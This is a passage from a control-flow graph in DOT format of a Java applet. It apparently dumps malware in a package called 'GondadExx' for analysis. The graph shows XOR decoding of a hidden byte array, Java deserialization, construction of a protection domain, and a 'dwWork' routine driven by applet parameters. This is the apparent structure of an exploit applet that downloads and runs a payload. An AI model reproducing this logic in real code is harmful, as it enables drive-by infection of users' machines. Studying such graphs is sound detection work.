    "new java.security.CodeSource"->"dup1.r";
    "new java.net.URL"
    "dup1.r"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"file:///\""
    "dup1.r"->"push \"file:///\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"file:///\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push 0";
    "push 0"->"newarray";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"
    "newarray"->"specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"->"load.r r6";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"
    "load.r r6"->"specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"->"push 0";
    "store.i r6"
    "push 0"->"store.i r6";
    "load.i r6"
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "arraylength"
    "load.r r5"->"arraylength";
    "ifcmpge.i push 0"
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "arrayread.b"
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 122";
    "xor.b"
    "push 122"->"xor.b";
    "nop"
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r6 1"
    "arraywrite.b"->"inc.i r6 1";
    "goto load.i r6"
    "inc.i r6 1"->"goto load.i r6";
    "store.r r0"
    "nop"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"load.r r5";
    "load.r r5"->"load.i r6";
    "load.i r6"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r6";
    "store.i r6"->"load.i r6";
    "push 1048576"
    "load.i r6"->"push 1048576";
    "ifcmpge.i load.r r0"
    "push 1048576"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"push 0";
    "store.i r7"
    "push 0"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r5";
    "load.r r5"->"arraylength";
    "ifcmpge.i inc.i r6 1"
    "arraylength"->"ifcmpge.i inc.i r6 1";
    "ifcmpge.i inc.i r6 1"->"load.r r5";
    "load.r r5"->"load.i r7";
    "load.i r7"->"load.r r5";
    "load.r r5"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r7 1"
    "arraywrite.b"->"inc.i r7 1";
    "goto load.i r7"
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i inc.i r6 1"->"inc.i r6 1";
    "inc.i r6 1"->"goto load.i r6";
    "load.r r0"
    "ifcmpge.i load.r r0"->"load.r r0";
    "new java.io.ObjectInputStream"
    "load.r r0"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r5";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r5"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>";
    "staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"->"dup1.r";
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "checkcast"
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r4"
    "checkcast"->"store.r r4";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r4"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"1\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"
    "load.r r0"->"fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>";
    "virtualinvoke <GondadExx.Ohno: void disco(java.lang.Object[],java.lang.ClassLoader)>"
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"->"virtualinvoke <GondadExx.Ohno: void disco(java.lang.Object[],java.lang.ClassLoader)>";
    "virtualinvoke <GondadExx.Ohno: void disco(java.lang.Object[],java.lang.ClassLoader)>"->"load.r r0";
    "push \"bn\""
    "load.r r0"->"push \"bn\"";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"
    "push \"bn\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r5";
    "store.r r5"->"load.r r0";
    "push \"si\""
    "load.r r0"->"push \"si\"";
    "push \"si\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"xiaomaolv\""
    "load.r r0"->"push \"xiaomaolv\"";
    "push \"xiaomaolv\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r7"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r7";
    "store.r r7"->"load.r r0";
    "push \"bs\""
    "load.r r0"->"push \"bs\"";
    "push \"bs\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r8"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "load.r r4"
    "store.r r8"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r4";
    "load.r r8"
    "store.r r4"->"load.r r8";
    "ifnull push 4444"
    "load.r r8"->"ifnull push 4444";
    "ifnull push 4444"->"load.r r8";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r8"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r8"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r8";
    "goto load.r r4"
    "store.i r8"->"goto load.r r4";
    "goto load.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "load.r r7"
    "load.r r0"->"load.r r7";
    "load.r r7"->"load.r r5";
    "load.r r5"->"load.r r6";
    "load.i r8"
    "load.r r6"->"load.i r8";
    "load.i r8"->"load.r $r12";
    "staticinvoke <GondadExx.Gond: void dwWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"
    "load.r $r12"->"staticinvoke <GondadExx.Gond: void dwWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>";
    "goto return"
    "staticinvoke <GondadExx.Gond: void dwWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"->"goto return";
    "push 4444"
    "ifnull push 4444"->"push 4444";
    "push 4444"->"store.i r8";
}
